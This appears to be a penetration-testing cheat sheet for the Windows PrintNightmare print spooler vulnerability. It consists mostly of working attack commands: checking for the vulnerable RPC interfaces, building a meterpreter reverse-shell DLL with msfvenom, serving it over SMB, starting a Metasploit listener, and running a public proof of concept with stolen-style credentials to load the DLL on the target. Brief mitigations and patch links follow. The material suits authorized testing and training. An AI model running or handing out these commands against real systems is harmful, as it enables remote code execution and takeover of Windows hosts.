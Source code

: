 Check for vulnerability
```bash
rpcdump.py @192.168.1.129 | egrep 'MS-RPRN|MS-PAR'
netexec smb 192.168.170.175 -u adot -p eight -M printnightmare
```
Generate malicious DLL
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=1337 -f dll > shell.dll

smbserver.py share `pwd` -smb2support

msfconsole -q -x 'use exploit/multi/handler;set LHOST tun0; set LPORT 443; run'
```
Download and run [POC](https://github.com/cube0x0/CVE-2021-1675).
```bash
python3 printnightmare.py pnpt.local/greg:Password1@192.168.1.129 '\\192.168.1.11\share\shell.dll'
```
Alternatively we can run this [POC](https://github.com/JohnHammond/CVE-2021-34527/tree/master/nightmare-dll/nightmare) locally 
```powershell
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```
### Mitigations
Run Stop-Service Spooler
` REG ADD "HKLM\SYSTEM\CurrentControlSet\Services\Spooler" /v "Start" /t REG_DWORD /d "4" /f`

Patch ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675))